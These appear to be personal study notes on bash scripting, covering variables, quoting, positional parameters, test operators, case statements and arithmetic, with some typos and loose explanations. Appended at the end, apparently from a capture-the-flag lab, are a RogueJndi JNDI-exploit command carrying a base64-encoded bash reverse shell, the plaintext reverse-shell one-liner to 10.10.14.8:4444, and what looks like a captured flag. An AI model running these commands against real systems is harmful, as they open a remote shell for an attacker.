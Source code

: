 `type -a 'item'` - find out if its a shell builtin or user command

if user command use man
 
if shell builtin use help
 
Use command to assign to variable = `VARIABLE=$(cmd)`  

Can also be `VARIABLE=`\``cmd`\`
 
Assign value using variable  

`WORD='script'`

variable = `${WORD}` or `$WORD`  

When you want to display the variable's value you use `$Variable`  
 
Single quotes prevent expansion of variables 
 
Double quotes provides the interpretation of the variable 
 
		`TEST='1'`
  
		`echo "$TEST"` provides 1
  
		`echo '$TEST'` provides $test
  
	If we want to append text to the end of the variable you need to use `{}`
 
	`echo "${WORD}ing"` provides Scripting
 
	Combining variables also require that you use the `{`
 
Changing the value stored in a variable (Reassignment)

	`ENDING='ed'`

	`echo "$ENDING"` ed
 
	`ENDING='ing'`
 
	`echo "$ENDING"` ing
 
parameter - variable being used inside the shell script

`;` is command separator or enter key

arguement - data passed into the shel lscritp

	arguement used in command line becoems the value stored in a parameter
 
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command

`${1}` - value fo the first arguement passed to the script on the cmd

expression = `[[ expression ]]

	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command

read input `read ` `-p` -passes the input onto value 

	ex. `read -p 'Entire input: ' variable_name`
 
useradd `-c` -comment for user `-m`(make home directory) `"username"`

shuf - shuffles entire lines

fold - wrap each input line to match space 

which - finds which path x command will execute from

	`which head` - finds location of head cmd
 
hash - `hash` - changes shell remembered locations

basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking

dirname - strips last component from file name - aka display only directory  - doesnt do smart checking

!`letter` - goes back to last command that started with X letter

`${@}` - puts each input as seperate words

`${*}` - puts each input as one word

`${#}` - represents the number of arguments

`sleep -s m h d` - delays command for -seconds -minutes -hours -days

`shift` - each time the cmd runs, ${#} goes down one

`readonly [variable]=[variable assignment]` - read only variable 

`getopts` - used matching pattern to get options from input

	`getopts input options OPTION`
 
	`while GET`
 
`bash pgrep -x` - check processes

Redirection


### Case

```
case [input] in
value) command` ;;

;; - block ender
esac - case finish
```

When trying to do math in bash format is `$(( NUM + NUM ))`

num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

